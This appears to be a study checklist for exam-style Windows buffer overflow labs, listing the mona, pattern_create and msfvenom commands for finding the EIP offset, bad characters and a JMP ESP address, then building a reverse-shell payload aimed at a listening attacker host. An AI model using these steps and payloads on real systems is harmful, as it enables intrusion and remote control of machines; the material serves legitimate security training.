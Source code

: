 - [ ] Configure mona: `!mona config -set workingfolder c:\mona\%p`
- [ ] Crash the app with fuzzer
- [ ] Use pattern create to exploit `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <crashpoint+400>`
- [ ] Execute exploit and find distance: `!mona findmsp -distance <crashpoint+400>` (look for EIP contains normal pattern : ... (offset XXXX))
- [ ] Update exploit with offset variable and set retn to "BBBB"
- [ ] Run exploit again, check if EIP is 42424242
*Repeat until all bad characters are found*
	- [ ] Generate bytearray with mona: `!mona bytearray -b "\x00"`
	- [ ] Generate bytearray with python
	- [ ] Include python's bytearray in exploit.py and compare results: `!mona compare -f C:\mona\oscp\bytearray.bin -a <ESP address>`
	- [ ] Take note of bad characters and generate new bytearray in mona and python
- [ ] Find jump points `!mona jmp -r esp -cpb "<hex-bad-chars>"`
- [ ] Update retn from exploit.py with one of the jump points written backwards (e.g. "\x01\x02\x03\x04" in Immunity is "\x04\x03\x02\x01" in exploit)
- [ ] Generate payload: `msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=4444 EXITFUNC=thread -b "<badchars>" -f c`
- [ ] Prepend NOPs: `padding = "\x90" * 16`
- [ ] Exploit